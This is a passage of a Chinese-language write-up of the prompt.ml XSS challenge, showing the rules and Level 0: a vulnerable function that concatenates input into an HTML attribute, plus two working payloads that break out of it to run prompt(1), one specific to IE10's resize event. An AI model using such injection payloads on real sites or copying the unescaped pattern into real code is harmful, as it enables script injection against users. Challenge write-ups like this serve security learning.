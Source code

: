 # xss 挑战赛 writeup

2014/09/22 12:30 | [西门吹雪](http://drops.wooyun.org/author/西门吹雪 "由 西门吹雪 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

挑战地址：[`prompt.ml/0`](http://prompt.ml/0)

from:[`github.com/cure53/xss-challenge-wiki/wiki/prompt.ml`](https://github.com/cure53/xss-challenge-wiki/wiki/prompt.ml)

## 规则：

1.  成功执行 `prompt(1)`
2.  payload 不需要用户交互
3.  payload 必须对下述浏览器有效：

*   Chrome(最新版) - Firefox(最新版) - IE10 及以上版本(或者 IE10 兼容模式) 4\. 每个级别至少给出两种浏览器的答案 5\. 字符越少越好

## Level 0

* * *

### 代码

```
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}

```

### 答案

```
"><svg/onload=prompt(1)>

```

这个 payload 24 个字符。还有一个比较不常用的技巧，在 IE10 下，当页面第一次加载时，会调用`resize`事件，这个 payload 只有 20 个字符

```
"onresize=prompt(1)>

```

### 背景知识

`resize`事件在 IE10 及以下版本有效，IE11 没有用。并且不需要用户交互。 更多信息：[`msdn.microsoft.com/en-us/library/ie/ms536959%28v=vs.85%29.aspx`](http://msdn.microsoft.com/en-us/library/ie/ms536959%28v=vs.85%29.aspx)

## Level 1
